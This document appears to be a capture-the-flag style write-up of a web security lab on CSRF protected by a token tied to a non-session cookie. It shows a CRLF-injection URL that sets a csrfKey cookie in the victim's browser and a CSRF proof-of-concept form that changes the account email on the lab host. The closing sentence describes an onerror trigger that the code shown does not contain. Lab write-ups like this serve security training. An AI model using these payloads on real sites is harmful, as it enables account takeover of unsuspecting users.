



Two CSRF tokens, and now one of them is attached as a cookie:



**We have to copy these two tokens, DROP the request and add these tokens in the CSRF PoC.**
The real problem is that we cannot attach cookies to our CSRF PoC, because the cookies are inside the user's browser.

In order to attach the `csrfKey` cookie to the victim, the lab has an intended path that is pretty "XD" and I had to check it:
- Back in the original browser, perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.
- Create a URL that uses this vulnerability to inject your `csrfKey` cookie into the victim's browser:
    `/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None`

Therefore, we have to add a script that performs a request to the website with a similar pattern **so the `csrfKey` cookie is set**, and then perform the CSRF attack.

The PoC will be something like this:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0100b604da6adf8176dff500e200f1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="whatever&#64;test&#46;es" />
      <input type="hidden" name="csrf" value="9RaDWhNvv0ED8q3coieoKTzOkHDxD2cy" />
      <input type="submit" value="Submit request" />
    </form>
    
  </body>
</html>```


This way, a request that sets the cookie is performed and then the `onerror` part triggers and submits the form that is created to reset the user's password:
